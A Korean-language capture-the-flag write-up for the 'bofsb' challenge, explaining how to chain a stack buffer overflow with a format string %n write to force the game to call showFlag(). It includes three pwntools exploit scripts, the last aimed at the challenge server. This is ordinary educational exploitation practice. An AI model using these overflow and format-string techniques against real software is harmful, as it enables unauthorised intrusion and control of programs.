



# bofsb

**Category:** Attack

**Points:** 50

**Author:** matta

**Description:** 

> Do you wanna be a hacker? Win the game!
> 
> nc bofsb.sstf.site 1337
> 
> Download: [bofsb.zip](resource/bofsb.zip)
> 
> References:
>  1) [Buffer Overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
>  2) [Format String Bug](https://ko.wikipedia.org/wiki/%ED%8F%AC%EB%A7%B7_%EC%8A%A4%ED%8A%B8%EB%A7%81_%EB%B2%84%EA%B7%B8) with a [Good Description](http://blog.naver.com/PostView.nhn?blogId=haks2198&logNo=220840244540&categoryNo=0&parentCategoryNo=0&viewDate=&currentPage=1&postListTopCurrentPage=1&from=postView)

## Write-up

게임을 이기면 해커가 될 수 있다고 한다. 건방진 언사와는 다르게 제공되는 파일을 풀어보면 친절히 IDA로 decompile한 소스 코드까지 주어져 있다.

첫부분에 showFlag()라는 예쁜 함수가 존재하는데, 코드를 쭉 보면 main() 함수에서 게임에 이기면 호출되도록 되어 있다.

게임에서 이기는 조건을 찾아보면 직전 if문의 playOthello(v4) 호출에서 v4가 33이되도록 하면 될것 같다.

v4는 scanf() 함수를 이용해서 입력 받는데, 1 또는 2가 아니면 프로그램이 종료되므로, 정상적인 실행 흐름에서는 33으로 만들 수 없으니 게임에서 이기기위해 취약점을 찾아 공격해보자.

힌트에서 Buffer Overflow와 Format String Bug에 대한 언급이 있었으니 여기에 집중해서 찾아보면 58라인의 이름을 입력받는 scanf()문에서 너비 제약이 없어 buffer overflow가 발생할 수 있을 것 같고, 그 아래에 format 문자열을 출력하는 print()문에서 format string buf가 발생할 수 있을 것 같다. 이들을 잘 이용해보자.

format이라는 포인터는 "Black" 또는 "White" 만을 가리키도록 되어있는데, 여기에 내가 원하는 문자열을 넣어주려면 format 포인터가 내가 입력한 문자열을 가리키도록 해야 한다. 이 프로그램에서 문자열을 입력할 수 있는 부분은 이름(v5)을 넣는 부분 밖에 없으니 format 변수의 값이 v5의 주소가 되도록 변경해주면 될 것 같다.

그렇게 하려면 v5 변수의 주소가 필요한데, 코드를 보면 이름 전에 출력해주는 magic code라는 값이 바로 v5의 주소이다.

main() 함수 시작부분을 보면, format 변수는 스택에서 v5 변수 바로 다음에 위치한다. v5 변수가 ebp-4C 번지부터 시작하고, format 변수가 ebp-C에서 시작하니, v5 변수는 0x4C - 0xC = 0x40의 크기를 갖는걸 알 수 있다. 그러므로, 이름을 입력받을 때 임의의 0x40개의 글자 다음에 v5 변수의 주소를 (x86 바이너리까 4바이트 litte-endian으로) 써주면 그 값이 format 변수를 덮어써서 이후의 print문에서 내가 입력한 문자열이 다시 출력되는 것을 볼 수 있다. (안타깝게도, v4 변수는 v5 변수보다 앞에 있어서 buffer overflow를 이용해서 덮어쓸 수 없다.)

```python
from pwn import *
r = process("./bofsb")

r.sendlineafter(" > ", "1")					#1 or 2, whatever
r.recvuntil("code: ")

v5_addr = int(r.readline().strip(), 16)		#get v5's address

payload = "A" * 0x40 + p32(v5_addr)
r.sendlineafter("name: ", payload)
r.interactive()
```



이제 print문에 들어가는 format string을 (0x40글자까지는) 마음대로 조작할 수 있게 되었으니 Format String Bug를 공격해서 v4 변수의 값을 33으로 바꿔보자.

format string의 맨 앞에 AAAA를 넣고, 몇 번째 argument로 AAAA가 출력되는지 확인해보자.  
(scanf() 함수는 공백문자를 기준으로 입력값을 구분하므로, 아래 코드에서처럼 ljust에 두 번째 인자로 공백이 아닌 문자를 꼭 써줘야 한다.)

```python
from pwn import *
r = process("./bofsb")

r.sendlineafter(" > ", "1")					#1 or 2, whatever
r.recvuntil("code: ")

v5_addr = int(r.readline().strip(), 16)		#get v5's address

payload = "AAAA:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x"
payload = payload.ljust(0x40, ":")
payload += p32(v5_addr)
r.sendlineafter("name: ", payload)
r.interactive()
```



두번째 %x에서 AAAA가 hex 형태로 출력된 것을 확인할 수 있다. 그러므로, AAAA 자리에 덮어쓰고 싶은 주소값을 써주고, 두번째 인자로 "%n"을 써주면 %n 이전에 printf()문을 통해 출력된 문자열의 길이가 해당 주소에 기록될 것이다.

v4 변수는 ebp-50 번지에 있으므로, v5의 주소에서 4를 빼주면 v4의 주소를 계산할 수 있다. 4바이트로 주소값을 써주고, 첫번째 인자를 33 - 4 = 29 바이트만큼의 너비로 출력되도록 해보자. 그러고 나서 %n을 써주면, 지금까지 출력된 길이인 33이 v4 변수의 주소에 써지고 게임에서 이길 수 있을 것이다.

```python
from pwn import *

r = remote("bofsb.sstf.site", 1337)			#connect to server

r.sendlineafter(" > ", "1")					#1 or 2, whatever
r.recvuntil("code: ")

v5_addr = int(r.readline().strip(), 16)		#get v5's address

payload = p32(v5_addr - 4) + "%29x%n"		#33 - 4 = 29
payload = payload.ljust(0x40, ":")
payload += p32(v5_addr)
r.sendlineafter("name: ", payload)
r.interactive()
```

위와 같이 [코드](resource/ex.py)를 작성하여 실행해보면, 기대했던대로 showFlag() 함수가 호출되어 flag를 확인할 수 있다.


